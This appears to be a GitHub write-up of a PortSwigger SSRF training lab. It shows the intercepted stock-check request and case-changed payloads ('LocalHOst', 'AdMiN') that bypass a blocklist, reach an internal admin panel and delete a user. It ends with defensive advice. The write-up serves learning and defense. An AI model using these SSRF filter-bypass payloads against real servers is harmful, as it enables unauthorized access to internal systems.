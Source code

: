 
<p align="center">
  <img src="./screenshots/ssrf_logo_.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 23.04.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SSRF (`Case-Insensitive Bypass`)

---

> The `SSRF` vulnerability is contained in the `check stock` function which fetches data from an `internal system`:

![stock_check_function](./screenshots/stock_check_function.png)

---
## 🔍 Request interception

> The first thing we do - is intercept the `check stock` function request and send it to the `repeater` of the `BurpSuite` tool:

```html 

POST /product/stock HTTP/2
Host: 0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Cookie: session=0Y0d9JLcHWAp6DegCuNPjTd0jINxBfJD
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1

```

> For ease of working with the request body in URL encoding, I use the `Hackvertor` extension:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1</@urlencode>

```

> Фукнция `check stock` выполняет запрос на ресурс `stock.weliketoshop.net:8080` используя маршрут `/product/stock/check` по которому выполняется функция проверки наличия
> продукта `productId` в выбранном месте `storeId`.

> The developers on the server side have implemented some protection against `SSRF attacks` which filters requests to internal system resources in the event of a request address being spoofed.

> If I try to replace the request with `http://localhost` I get the standard error:

```bash

stockApi=<@urlencode>http://localhost</@urlencode>

```

> Result:

![localhost_error](./screenshots/localhost_error.png)

> The essence of the current protection is to filter such phrases in the request as `localhost`, `admin`, etc. The only problem is that this filter does not take into account
> the case of characters, which means that I can try to `change the case` of some characters in the word `localhost` to `LocalHOst` for example and send a request to the server:

```bash

stockApi=<@urlencode>http://LocalHOst</@urlencode>

```

> Result:
![LocalHOst_answer](./screenshots/LocalHOst_answer.png)

> Filter bypass with case-shifting worked. The server returned a response with code 200 and results in the form of an HTML page. Nice.

> Next we need to get to the administrator interface which is located at the path `/admin`. To do this, by analogy, I change the case of the characters in the word `admin` to `AdMiN` and try to send a request:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN</@urlencode>

```

> Result:
![AdMiN_answer](./screenhots/AdMiN_answer.png)

![admin_panel](./screenshots/admin_panel.png)

> The server returned a response with the code `200` again. Bypassing the server's security features by changing the case of characters in the request worked.
> I got access to the `admin panel`.

---

> To solve this problem, you need to send a request to delete the user `carlos`:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN/delete?username=carlos</@urlencode>

```

> Result:
![solved_lab](./screenshots/solved_lab.png)

> Lab complete.

---
## 🧠 Conclusion

> To protect against such SSRF attack techniques with filter bypassing you can do the following:

> `1)` Before comparing incoming requests bring the URLs to the same type - `URL normalization`.
> Example in python:

```python

urllib.parse.urlparse(user_input_url.lower())

```
> `2)` Use `DNS resolving` with IP address checking. That is, perform a recursive request by domain name and check the received IP address with `whitelist`

> `3)` Prohibit any requests to internal local system resources in principle by isolating the network.

